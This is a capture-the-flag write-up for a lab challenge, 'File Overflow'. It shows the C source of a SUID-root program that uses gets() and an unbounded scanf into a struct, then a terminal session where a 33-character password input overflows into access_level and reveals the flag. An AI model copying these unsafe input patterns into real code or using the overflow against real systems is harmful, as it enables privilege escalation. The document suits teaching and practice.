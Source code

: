 # File Overflow

Proposed difficulty: `Easy`

65 solves

```text
Tillykke med dit nye job her hos LS pension. Vi er glade for at du har valgt at starte her. For at du kan komme i gang skal du ind i vores filsystem. Her kan du finde de filer du skal bruge. SSH ind i vores system på FileSystem.hkn. Dit brugernavn er employe1 og din adgangskode er 321. Men pas på at du ikke får filsystemet til at flyde over.

ssh employe1@filesystem.hkn
```

# Solution

I started by ssh'ing into the remote, as described in the challenge description.

```text
employe1@c4adf933a369:~$ ls -alF
total 40
drwxr-xr-x 1 employe1 employe1  4096 Dec  4 10:13 ./
drwxr-xr-x 1 root     root      4096 Dec  4 10:13 ../
-rw-r--r-- 1 employe1 employe1   220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 employe1 employe1  3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 employe1 employe1   807 Apr 23  2023 .profile
-rwsr-xr-x 1 root     root     16240 Dec  4 10:13 File_acces_system*
drwxr-xr-x 1 root     root      4096 Dec  4 10:13 src/
employe1@c4adf933a369:~$ 
```

In the server we have a binary with SUID as root, and a src folder:

```text
employe1@c4adf933a369:~$ ls -alF src
total 12
drwxr-xr-x 1 root     root     4096 Dec  4 10:13 ./
drwxr-xr-x 1 employe1 employe1 4096 Dec  4 10:13 ../
-rw-rw-rw- 1 root     root     1949 Dec  4 10:12 File_acces_system.c
```

Here is the source:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

typedef struct user {
    char username[32];
    char password[32];
    int access_level;
} user;

void idCheck(user *account) {
    if (account->access_level >= 3) {
        printf("Since you are the boss you can get the balance of any account\n");

        system("cat /path_to_flag");
    } else {
        printf("you dont have the right access level\n");
    }
}

int main() {
    int choice = 1;
    int deposit_ammount;
    int withdraw_ammount;

    struct user newUser;
    newUser.access_level = 1;

    printf("Good afternoon and welcome\n");
    printf("What is your name\n");
    gets(newUser.username);

    while (choice >= 0) {
        printf("\nSelect an option:\n");
        printf("1. Check access level\n");
        printf("2. View account details\n");
        printf("3. Change password\n");
        printf("4. Access file\n");
        printf("0. Exit\n");
        scanf("%d", &choice);
         switch (choice) {
            case 1:
                printf("Your access level is: %d\n", newUser.access_level);
                printf("contagt admin to get higher access level\n");
                break;
            case 2:
                printf("Username: %s\n", newUser.username);
                printf("contat admin to see password\n");
                printf("Access level: %d\n", newUser.access_level);
                break;
            case 3:
                printf("Enter new password: ");
                scanf("%s", newUser.password);
                printf("Password changed successfully!\n");
                break;
            case 4:
                idCheck(&newUser);
                break;
            case 0:
                printf("Goodbye!\n");
                return 0;
            default:
                printf("Invalid choice!\n");
                break;
        }
    }

    return 0;
}
```

We're especially interested in the function called `idCheck()`:

```c
void idCheck(user *account) {
    if (account->access_level >= 3) {
        printf("Since you are the boss you can get the balance of any account\n");

        system("cat /path_to_flag");
    } else {
        printf("you dont have the right access level\n");
    }
}
```

It seems like we want the user to have an `access_level` of `>= 3`, as this will print out the flag for us.

The `Change password` menu allows us to do a buffer overflow, and overwrite the value of access level if we input more than 32 characters.

We can do this, as the `user.password` buffer is right next to the `user.access_level` integer. When we write past the `user.password` buffer, the overflowing input overwrites the integer stored in `user.access_level`.

I will set the access level to 100 by creating a payload of 32 A's, followed by a single "d", which has the ASCII value of 100.

```text
employe1@c4adf933a369:~$ ./File_acces_system 
Good afternoon and welcome
What is your name
dnorhoj

Select an option:
1. Check access level
2. View account details
3. Change password
4. Access file
5. Exit
1
Your access level is: 1
contagt admin to get higher access level

Select an option:
1. Check access level
2. View account details
3. Change password
4. Access file
0. Exit
3
Enter new password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAd
Password changed successfully!

Select an option:
1. Check access level
2. View account details
3. Change password
4. Access file
0. Exit
1
Your access level is: 100
contagt admin to get higher access level

Select an option:
1. Check access level
2. View account details
3. Change password
4. Access file
0. Exit
4
Since you are the boss you can get the balance of any account
DDC{THE_FILES_ARE_EVERYWHERE}
```

# Flag

`DDC{THE_FILES_ARE_EVERYWHERE}`
